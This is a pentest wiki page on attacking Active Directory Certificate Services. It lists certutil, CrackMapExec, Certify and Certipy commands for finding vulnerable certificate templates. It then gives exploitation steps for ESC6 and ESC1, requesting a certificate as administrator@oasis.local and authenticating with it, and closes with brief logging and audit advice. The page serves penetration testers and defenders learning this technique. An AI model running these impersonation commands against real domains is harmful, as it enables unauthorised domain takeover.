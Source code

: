 # AD CS

Active Directory Certificate Services (AD CS) is a feature of Active Directory that allows a desginated server to issue certificates. This assists in helping environments leverage and deploy the security advantages of using certificate-based authentication.

For a way more well explained blog on exploiting AD CS, I highly recommend checking out [SpecterOps' article](https://posts.specterops.io/certified-pre-owned-d95910965cd2).&#x20;

Additionally, notes from the [Relaying section](relaying/) are essential to understanding the attack chain of AD CS.

## Enumerate AD CS

If we get a hit from these methods then we can browse to the host identified with the  following URL: `http://localhost/certsrv/`

### Certutil

Dump and display certification authority information with Certutil.exe. This utility can be used to quickly identify if there is a certificate authority on the domain for AD CS attacks:

```
Certutil -ping
Certutil.exe -tcainfo
```

### CrackMapExec

```bash
crackmapexec smb $ip -u $username -p $password -M adcs
```

### Certify

When dealing with AD CS, [Ceritfy](https://github.com/GhostPack/Certify) and [Certipy](https://github.com/ly4k/Certipy) are going to be your best friends.&#x20;

```bash
# Identify and list vulnerable templates with Certipy
certipy find -u $username -p $password -dc-ip $dcip -vulnerable

# Identify and list vulnerable templates with Certify
Certify.exe find /vulnerable
```

## Exploitation

The following section builds off of several available repositories that are referenced at the bottom of this page. There are multiple ways to exploit vulnerable certificate templates so I highly recommend searching through red team wikis and blogs to find one that may be specific for your use case.&#x20;

#### EDITF\_ATTRIBUTESUBJECTALTNAME2 (ESC6)

> If this attribute is set on the CA, any request (including when the subject is built from Active Directory) can have user defined values in the subject alternative name.

The above quote from Microsoft in attacker-speak means that we can then enroll in **any** template configured for domain authentication that also allows unprivileged users to enroll. This would allow the attacker to obtain a certificate that then allows them to authenticate as any user/machine on the domain.&#x20;

{% hint style="info" %}
This setting is disabled by default.&#x20;
{% endhint %}

This setting, like many others in this section can be discovered and exploited #through using [Certify](https://github.com/GhostPack/Certify).&#x20;

```bash
# Find all enabled certificate templates:
Certify.exe find

# Abuse a cerificate with this setting configured 
Certify.exe request /ca:CA01.oasis.local\CorpCA /template:User /altname:$impersonateuser
```

### Exploiting ESC1

```bash
## https://github.com/ly4k/Certipy
### It should be noted that information such as the CA, target, and template name can all be identified from running the certipy find command.

pip3 install certipy-ad
certipy find -u parz@oasis.local -p $password -dc-ip $dcip
certipy req -username parz@oasis.local -password $password -ca $ca -target $cahost -template $templatename -upn administrator@oasis.local -dns dc.oasis.local
certipy auth -pfx administrator_dc.pfx -dc-ip $dcip
```

## Mitigation

One of the easiest ways to assist in detecting exploitation of AD CS is to enable Certificate Authority logging. By default, AD CS does not enable logging by default, which in the case of an incident will prevent an organization from responding. This can be easily remediated:

```bash
# Enable CA Logging
certutil.exe -setreg CA\AuditFilter 127
```

Additionally, it is recommended to perform regular auditing with tools such as Certify/Certipy or PSPKIAudit to detect vulnerable certificate templates:

{% embed url="https://github.com/GhostPack/PSPKIAudit" %}

## References

{% embed url="https://ppn.snovvcrash.rocks/pentest/infrastructure/ad/ad-cs-abuse" %}

{% embed url="https://www.thehacker.recipes/ad/movement/ad-cs/certificate-templates" %}

{% embed url="https://posts.specterops.io/certified-pre-owned-d95910965cd2" %}

{% embed url="https://learn.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-r2-and-2012/dn786426(v=ws.11)" %}

{% embed url="https://www.riskinsight-wavestone.com/en/2021/06/microsoft-adcs-abusing-pki-in-active-directory-environment/" %}
